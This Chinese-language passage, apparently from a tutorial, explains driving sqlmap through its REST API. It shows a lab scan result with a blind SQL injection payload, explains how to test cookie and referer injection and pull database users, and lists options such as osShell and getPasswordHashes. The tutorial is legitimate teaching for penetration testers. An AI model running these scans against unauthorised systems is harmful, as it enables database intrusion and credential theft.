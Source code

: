 ```py
{'data': [{'status': 1, 'type': 0, 'value': {'url': 'http://192.168.1.104:80/sql/sql/post.php', 'query': None, 'data': 'keyword=1'}}, {'status': 1, 'type': 1, 'value': [{'dbms': 'MySQL', 'suffix': '', 'clause': [1, 8, 9], 'notes': [], 'ptype': 1, 'dbms_version': ['>= 5.0.12'], 'prefix': '', 'place': 'POST', 'os': None, 'conf': {'code': None, 'string': 'Title=FiveAourThe??', 'notString': None, 'titles': None, 'regexp': None, 'textOnly': None, 'optimize': None}, 'parameter': 'keyword', 'data': {'1': {'comment': '', 'matchRatio': 0.863, 'trueCode': 200, 'title': 'AND boolean-based blind - WHERE or HAVING clause', 'templatePayload': None, 'vector': 'AND [INFERENCE]', 'falseCode': 200, 'where': 1, 'payload': 'keyword=1 AND 3424=3424'}...], 'success': True, 'error': []}
```

那么如何检测 COOKIE 注入、UA 注入这些呢？下面笔者将列出 api 接口可接收的所有字段，若要检测 COOKIE 注入的话，我们只要在`@post("/scan/<taskid>/start")`接口中，传入 cookie 字段；若要检测 referer 注入的话，我们只要在`@post("/scan/<taskid>/start")`接口中，传入 referer 字段。

若要从注入点中获取数据库的版本、数据库的用户名这些，只要在`@post("/scan/<taskid>/start")`接口中，传入 getBanner 字段，并设置为 True，传入 getUsers 字段，并设置为 True。

```
crawlDepth: None
osShell: False
getUsers: False
getPasswordHashes: False
excludeSysDbs: True
ignoreTimeouts: False
regData: None
fileDest: None
prefix: None
code: None
googlePage: 1
skip: None
query: None
randomAgent: False
osPwn: False
authType: None
safeUrl: None
requestFile: None
predictOutput: False
wizard: False
stopFail: False
forms: False
uChar: None
secondReq: None
taskid: 630f50607ebf91dc
pivotColumn: None
preprocess: None
dropSetCookie: False
smart: False
paramExclude: None
risk: 1
sqlFile: None
rParam: None
getCurrentUser: False
notString: None
getRoles: False
getPrivileges: False
testParameter: None
tbl: None
charset: None
trafficFile: None
osSmb: False
level: 1
dnsDomain: None
outputDir: None
skipWaf: False
timeout: 30
```
